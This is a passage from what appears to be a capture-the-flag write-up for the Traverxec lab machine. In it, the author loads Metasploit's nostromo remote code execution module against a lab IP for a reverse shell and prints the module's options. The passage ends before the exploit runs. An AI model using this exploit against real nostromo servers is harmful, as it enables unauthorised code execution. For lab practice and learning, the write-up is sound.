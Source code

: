 ![Directory listing](/media/2020.04/traverxec_2.png){: .image-process-article-image}

Nothing interesting on the web part. Let us run the exploit found in the recon.

## MSF

We load the exploit in metasploit, set the option to target the box and set our
IP work the reverse shell and run it.

    :::text
    msf5 exploit(multi/http/nostromo_code_exec) > use exploit/multi/http/nostromo_code_exec
    msf5 exploit(multi/http/nostromo_code_exec) > show options

    Module options (exploit/multi/http/nostromo_code_exec):

       Name     Current Setting  Required  Description
       ----     ---------------  --------  -----------
       Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
       RHOSTS   10.10.10.165     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
       RPORT    80               yes       The target port (TCP)
       SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
       SRVPORT  8080             yes       The local port to listen on.
       SSL      false            no        Negotiate SSL/TLS for outgoing connections
       SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
       URIPATH                   no        The URI to use for this exploit (default is random)
       VHOST                     no        HTTP server virtual host
